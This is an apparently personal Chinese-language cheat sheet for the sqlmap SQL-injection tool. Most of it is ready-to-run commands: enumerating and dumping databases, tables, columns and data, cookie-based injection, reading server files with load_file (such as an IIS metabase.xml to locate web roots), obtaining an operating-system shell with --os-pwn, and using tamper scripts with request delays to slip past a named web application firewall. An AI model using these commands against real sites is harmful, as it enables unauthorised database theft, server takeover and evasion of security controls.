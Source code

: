 # Sqlmap

---

所有请求方式都能注入，默认是get/post,但是当使用--level参数>=2时，检查cookies，>=3时检查user-agent和referer、 --level 1 GET|2 cookies|3 POST

提示输入的选择，大写是回车默认选项

出现红色提示就是错误，建议加参数

---

sqlmap -u "http://URL/id=1"	 --current-db 		#列出当前的数据库

参数

```

--current-user		#列出当前的权限用户

--threads=线程数

--referer IP或域名  #设置访问来源

--is-dba  #查看当前数据库用户权限

--level 等级  （等级越高检测会越全面，总5级）

--dbms 数据库名 （指定数据库类型）

--batch   按照sqlmap的默认提示往下确认

--proxy http://localhost:8080 #代理

-p 参数名  #指定注入点参数，当有多个参数时使用 ,默认全部参数都测试注入

--dbs 			#列出服务器中所有的数据库

-r 文件名         #该文件是能注入的页面的抓·包

--charset=     #编码格式GBK、UTF-8

-D 库名 --tables 	#列出该库的所有表

-D 库名 -T 表名 --columns #列出库名的表名的所有字段名

-D 库名 -T 表名 -C "字段名" --dump #列出库名的表名的字段名的数据

4.0版本可以用

--os-pwn #获取操作系统的shell

--sql-shell               

select load_file('绝对路径') #查看后台登录页面判断登录的代码，找到用户名和密码的代入查询的字段名，和表名（注意，路径使用/，无论是windows还是linux，如要使用\ 就使用\\或者16进制,16进制就不用双引号）windows2003读取C:/windows/system32/inetarv/metabase.xml就可以查看到所有网站根目录

```

---

## cookies注入：（等级2才有cookies注入检测）

sqlmap -u "URL/xxx.php" --cookie "id=n" --level 2 --dbms=mysql --dbs   #cookies注入mysql数据库，查看所有数据库

--cookie "id=n"  --level 2 -D 库名 --tables

--cookie "id=n"  --level 2 -D 库名 -T 表名 --columns

--cookie "id=n"  --level 2 -D 库名 -T 表名 -C "字段名" --dump

\-----------------------------

## temper

tamper（编写绕过规则）：进行绕过waf（防护规则，检测发包间隔）

sqlmap默认tamper有  

sqlmap -u "http://URL/id=1" --tamper "xx.py"  --delay 3 #每次发包延迟3秒再发

 -v 显示包的等级

暂时能过V3.2，更高版本的安全狗要研究

详细：http://www.91ri.org/7852.html

空格 换成 #、随即字符串、换行符

